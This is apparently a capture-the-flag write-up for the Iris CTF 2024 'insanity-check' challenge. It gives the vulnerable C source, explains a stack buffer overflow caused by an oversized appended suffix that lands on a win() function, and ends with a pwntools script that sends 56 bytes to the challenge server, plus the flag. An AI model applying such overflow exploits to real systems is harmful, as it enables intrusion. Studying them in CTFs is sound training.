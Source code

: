 ```yaml
---
layout: writeup
category: Iris-CTF-2024
chall_description:
points: 50
solves: 254
tags: pwn pwn/buffer-overflow pwn/ret2win
date: 2024-1-7
comments: false
---
```


I've tried the brand new michael-ld linker on my hello world program. I'm pretty sure it's super safe now.  
`nc insanity-check.chal.irisc.tf 10003`  
[insanity-check.tar.gz](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/Iris-CTF-2024/insanity-check.tar.gz)  

---

We're given an ELF binary and a C source file. Here's `vuln.c`:  

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void rstrip(char* buf, const size_t len) {
    for (int i = len - 1; i >= 0; i--)
        if (buf[i] == '\n') {
            buf[i] = '\0';
            break;
        }
}

const char suffix[] = "! Welcome to IrisCTF2024. If you have any questions you can contact us at test@example.com\0\0\0\0";

int main() {
    char message[128];
    char name[64];
    fgets(name, 64, stdin);
    rstrip(name, 64);

    strcpy(message, "Hi there, ");
    strcpy(message + strlen(message), name);
    memcpy(message + strlen(message), suffix, sizeof(suffix));

    printf("%s\n", message);
}

__attribute__((section(".flag")))
void win() {
    __asm__("pop %rdi");
    system("cat /flag");
}
```

Firstly, we can clearly recognize the use of `fgets()`, which is known to be safe from buffer overflow. Thus, we can't directly overflow the `name` variable, as it is allocated 64 bytes and fgets ensures the program only reads 64 bytes.  

However, something else seems to be happening. We are also adding some other strings onto the name to create a message, and printing it back to the user. There's no format string vulnerability, as `%s` is used for the printf call. But, that `suffix` variable seems pretty long... and we're only allocated 128 bytes for the `message` variable. Can we cause a buffer overflow there?  

I sent 64 bytes of input to the program, and sure enough, we got a segfault. There's our vulnerability!  

But, there's a slight problem. We can't directly modify RDI (i.e. the return address) with our input, as it's not long enough. But there's a very suspicious string at the end of `suffix`... why are there 4 null bytes?  

At this point, I realized the trick. Maybe the end of the suffix very conveniently turned out to be the address of the win function?  

Running `file vuln` (since I forgot to do it before), I realized that this was an x86-64 ELF, which means the 4 null bytes at the end made sense. Then, with pwntools, I checked the win address with `print(elf.symbols['win'])`, which returned `0x6d6f632e`. That looks suspiciously like ASCII. A quick hex to ASCII conversion shows that it definitely is!  

Hence, we just have to send in the correct offset of bytes to get the win address to align correctly. Simple guess and check should work, as with pwndbg's gdb, it'll show us what part of the string is currently filling the win address. Thus, here's the final exploit after guess and check:  

```py
from pwn import *
import pwnlib.util.packing as pack

elf = ELF("./vuln")
context.binary = elf
context.log_level = "DEBUG"
context(terminal=["tmux","split-window", "-h"])

# p = process('./vuln')
# gdb.attach(p)
p = remote('insanity-check.chal.irisc.tf', 10003)

p.sendline(
    b'A'*56
)

p.interactive()
```

And here's the flag!  

    irisctf{c0nv3n13nt_symb0l_pl4cem3nt}